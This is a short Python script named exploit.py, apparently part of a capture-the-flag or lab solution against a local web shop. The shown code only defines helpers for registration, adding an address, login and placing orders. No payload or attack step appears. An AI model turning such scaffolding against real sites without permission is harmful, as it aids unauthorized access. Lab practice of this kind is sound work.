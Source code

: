 exploit.py

```py
import requests

base_url = 'http://localhost:3000'
session = requests.Session()

def register(username, password):
    url = f'{base_url}/register'
    data = {
        'username': username,
        'password': password
    }
    response = session.post(url, data=data)
    if 'address' in response.url:
        print(f"Registered successfully as {username}")
        return True
    else:
        print(f"Failed to register: {response.text}")
        return False

def add_address(username, addressId, fullAddress):
    url = f'{base_url}/address'
    data = {
        'username': username,
        'addressId': addressId,
        'Fulladdress': fullAddress
    }
    response = session.post(url, data=data)
    if 'login' in response.url:
        print(f"Address added successfully for {username}")
        return True
    else:
        print(f"Failed to add address: {response.text}")
        return False

def login(username, password):
    url = f'{base_url}/login'
    data = {
        'username': username,
        'password': password
    }
    response = session.post(url, data=data)
    if 'login' not in response.url:
        print(f"Logged in as {username}")
        return True
    else:
        print(f"Failed to log in: {response.text}")
        return False

def place_order(item, quantity):
    url = f'{base_url}/order'
    data = {
        'item': item,
        'quantity': quantity
    }
    response = session.post(url, data=data)
    if 'order' not in response.url:
        print("Order placed successfully")
        return True
    else:
        print(f"Failed to place order: {response.text}")
        return False
```
